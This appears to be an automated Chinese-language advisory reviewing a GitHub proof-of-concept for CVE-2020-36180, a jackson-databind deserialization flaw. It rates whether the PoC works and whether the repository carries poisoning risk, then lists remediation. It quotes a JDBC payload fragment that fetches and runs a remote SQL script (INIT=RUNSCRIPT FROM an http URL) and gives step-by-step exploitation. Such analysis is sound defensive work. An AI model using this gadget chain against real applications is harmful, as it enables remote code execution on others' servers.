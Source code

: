 ## CVE-2020-36180 - Jackson-databind 反序列化漏洞

**漏洞编号:** CVE-2020-36180

**漏洞类型:** 反序列化漏洞

**影响应用:** FasterXML jackson-databind

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.x before 2.9.10.8

**利用条件:** 应用程序使用存在漏洞的jackson-databind版本，且允许反序列化不受信任的数据。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

该漏洞存在于FasterXML jackson-databind库中，由于不安全的反序列化操作导致。当jackson-databind 2.9.10.8之前的2.x版本处理序列化工具和类型之间的交互时，存在问题，特别是在与org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS相关的情况下。

**有效性：**
提供的POC代码有效。它使用`org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS`作为gadget，结合H2数据库的特性，通过JDBC URL执行任意SQL代码。POC通过设置`TRACE_LEVEL_SYSTEM_OUT=3`来显示执行结果，并通过`INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'`从远程URL执行SQL脚本，达到远程代码执行的目的。

**投毒风险：**
该仓库中的投毒风险较低 (0%)。虽然攻击者可以通过远程SQL脚本执行恶意代码，但`pom.xml`文件只包含了jackson-databind, commons-dbcp2, h2database, slf4j-nop和jta等常规依赖，并且源代码中没有发现明显的恶意代码。`POC.java`文件中的代码主要用于演示漏洞利用，没有发现其他潜在的恶意行为。

**利用方式：**
1.  攻击者需要找到一个应用程序，该应用程序使用存在漏洞的jackson-databind版本（2.x before 2.9.10.8）。
2.  攻击者需要找到该应用程序可以接受JSON格式数据并使用jackson-databind进行反序列化的入口点。
3.  攻击者构造包含恶意`org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS` gadget的JSON payload，如POC代码所示。Payload中的JDBC URL指向攻击者控制的服务器，该服务器托管包含恶意命令的SQL脚本(`exec.sql`)。
4.  应用程序反序列化恶意JSON payload时，jackson-databind会尝试创建`DriverAdapterCPDS`对象，并根据payload中的数据设置其属性，包括JDBC URL。H2数据库驱动程序在初始化时会执行URL中指定的SQL脚本，从而导致远程代码执行。

**修复建议：**
将jackson-databind升级到2.9.10.8或更高版本，或者采取其他缓解措施，例如禁用default typing，使用白名单机制限制可反序列化的类。

**项目地址:** [cuijiung/jackson-CVE-2020-36180](https://github.com/cuijiung/jackson-CVE-2020-36180)

**漏洞详情:** [CVE-2020-36180](https://nvd.nist.gov/vuln/detail/CVE-2020-36180)